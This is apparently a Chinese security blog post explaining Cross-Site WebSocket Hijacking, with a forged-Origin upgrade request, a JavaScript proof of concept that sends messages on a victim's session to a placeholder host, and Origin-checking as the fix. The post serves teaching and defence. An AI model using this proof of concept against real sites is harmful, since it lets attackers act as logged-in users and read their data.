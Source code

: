```yaml
---
layout: post
author: Vulkey_Chen
title: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
date: 2019-03-20
music-id: 28661853
permalink: /archives/2019-03-20/1
description: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
---
```


# WebSocket 跨域劫持漏洞

WebSocket 跨域劫持漏洞，英文名：**Cross-site WebSocket Hijacking**，漏洞类型：全能型CSRF（可读、可写）。

## 了解WebSocket

### Websocket 优点

1. 支持双向通信，实时性更强。
2. 更好的二进制支持。
3. 较少的控制开销。连接创建后，ws客户端、服务端进行数据交换时，协议控制的数据包头部较小。在不包含头部的情况下，服务端到客户端的包头只有2~10字节（取决于数据包长度），客户端到服务端的话，需要加上额外4字节的掩码。而HTTP协议每次通信都需要携带完整的头部。
4. 支持扩展。ws协议定义了扩展，用户可以扩展协议，或者实现自定义的子协议。（比如支持自定义压缩算法等）

### Websocket 如何建立连接

画了一张图让你了解：

![websocket](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/0.png)


## 漏洞产生

建立Websocket连接无验证。

### 案例

1.如下请求：

```http
GET / HTTP/1.1
Host: localhost:8080
Origin: http://127.0.0.1:3000
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: w4v7O6xFTi36lq3RNcgctw==

```

篡改Origin，发现没有对Origin进行验证，也可以跨域进行协议升级。

2.进一步验证

2.1获取到了一个发送评论的请求 （**使用BurpSuite->Proxy模块->Websockets History查看，这里是对应的 Direction值为Outgoing为发出的请求，Incoming为发出请求对应的响应信息**）

![test](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/1.png)

2.2使用JavaScript创建Websocket请求

**如上图所示Outgoing的内容为“我是帅key的可爱小迷弟”，那么发送的数据就是这个**。

```html
<meta charset="utf-8">
<script>
function ws_attack(){
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
		ws.close();
	};
}
ws_attack();
</script>
```

2.3验证发现可以请求并成功进行重放，存在Websocket跨域劫持

（这里只是简单的评论请求，危害就是：点我链接让你评论我想评论的，试想：如果是修改密码的WebSocket请求存在劫持那么问题就大了～）

## 漏洞利用

攻击流程跟以往的交互类漏洞没什么区别（点我链接读取你XXX、点我链接让你XXX）：

![attack](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/2.png)

来一个圈子"铸剑实战靶场"的截图，自我体会：

![success](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/3.png)

### PoC代码编写

```html
<meta charset="utf-8">
<script>
function ws_attack(){//自定义函数ws_attack
    //定义函数功能
    //创建WebSocket并赋值给ws变量
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
        //当ws(WebSocket)处于连接状态时执行
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
        //当ws(WebSocket)请求有响应信息时执行
        //注意：响应的信息可以通过evt.data获取！例如：alert(evt.data);
		ws.close();
	};
}
ws_attack();//执行ws_attact函数
</script>
```

## 修复方法

综合建议：校验Origin头

# Reference

https://www.cnblogs.com/chyingp/p/websocket-deep-in.html